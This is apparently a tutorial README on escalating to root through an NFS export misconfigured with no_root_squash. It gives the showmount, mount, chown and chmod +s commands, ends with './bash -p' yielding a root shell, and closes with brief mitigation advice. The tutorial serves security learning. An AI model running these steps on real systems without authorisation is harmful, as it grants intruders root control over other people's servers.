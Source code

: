 # NFS Privilege Escalation Exploit

## **Introduction**
NFS (Network File System) allows remote systems to mount file shares over a network. However, misconfigurations in NFS, such as `no_root_squash`, can lead to **privilege escalation** by allowing users to execute commands as root. This guide demonstrates how an attacker can leverage such vulnerabilities to gain root access on an NFS server.

## **1. Enumerate NFS Shares**
On the client machine, identify NFS shares available on the target:
```bash
showmount -e 192.168.1.9
```
### **Output:**
```
Export list for 192.168.1.9:
/data 192.168.1.0/24
```
This indicates that `/data` is an NFS share accessible to the `192.168.1.0/24` network.

---

## **2. Mount the NFS Share**
```bash
sudo mount -t nfs 192.168.1.9:/data /mnt
```
Verify the mount:
```bash
df -h | grep nfs
ls -lah /mnt
```

---

## **3. Copy the Bash Binary to the NFS Share (Server-Side)**
On the **server-side**, copy the bash binary to the mounted directory:
```bash
cp -v /usr/bin/bash /data
```

---

## **4. Modify Permissions on the Client Side**
On the **client-side**, navigate to the mounted directory and change ownership:
```bash
cd /mnt
chown root:root bash
chmod +s bash
```
This sets the **SUID** bit on the `bash` binary, allowing it to execute as the owner (root).

---

## **5. Execute the Exploit (Server-Side)**
Now, on the **server**, execute the modified bash binary:
```bash
cd /data
./bash -p
```
### **Output:**
```
bash-5.2# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)
```
Now you have **root privileges** on the target system!

---

## **6. Mitigation**
To prevent this exploit:
- **Avoid using `no_root_squash` in NFS exports**.
- **Restrict NFS access** to trusted users.
- **Use proper file permissions** to prevent unauthorized execution.

---

